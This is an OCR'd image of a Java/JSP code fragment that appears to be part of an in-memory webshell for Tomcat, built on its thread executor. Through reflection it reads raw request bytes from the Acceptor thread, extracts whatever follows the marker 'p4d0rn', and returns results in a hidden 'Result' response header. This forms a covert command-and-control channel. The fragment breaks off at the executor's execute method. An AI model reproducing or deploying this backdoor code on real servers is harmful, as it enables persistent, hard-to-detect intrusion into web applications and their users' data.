 ```jsp
                                    Object[] objects = (Object[]) getField(getField(getField(target, "endpoint"), "nioChannels"), "stack");
                                    ByteBuffer heapByteBuffer = (ByteBuffer) getField(getField(objects[0], "appReadBufHandler"), "byteBuffer");
                                    String a = new String(heapByteBuffer.array(), "UTF-8");

                                    if (a.indexOf("p4d0rn") > -1) {
                                        System.out.println(a.indexOf("p4d0rn"));
                                        System.out.println(a.indexOf("\r", a.indexOf("p4d0rn")) - 1);
                                        String b = a.substring(a.indexOf("p4d0rn") + "p4d0rn".length() + 1, a.indexOf("\r", a.indexOf("p4d0rn")) - 1);

                                        return b;
                                    }

                                } catch (Exception var11) {
                                    System.out.println(var11);
                                    continue;
                                }
                            }
                        }
                    }
                }
            } catch (Exception ignored) {
            }
            return new String();
        }


        public void getResponse(String res) {
            try {
                Thread[] threads = (Thread[]) ((Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads"));

                for (Thread thread : threads) {
                    if (thread != null) {
                        String threadName = thread.getName();
                        if (threadName.contains("Acceptor")) {
                            Object target = getField(thread, "target");
                            if (target instanceof Runnable) {
                                try {
                                    ArrayList objects = (ArrayList) getField(getField(getField(getField(target, "endpoint"), "handler"), "global"), "processors");
                                    for (Object tmp_object : objects) {
                                        RequestInfo request = (RequestInfo) tmp_object;
                                        Response response = (Response) getField(getField(request, "req"), "response");
                                        response.addHeader("Result", res);
                                    }
                                } catch (Exception var11) {
                                    continue;
                                }
                            }
                        }
                    }
                }
            } catch (Exception ignored) {
            }
        }

        @Override
        public void execute(Runnable command) {
```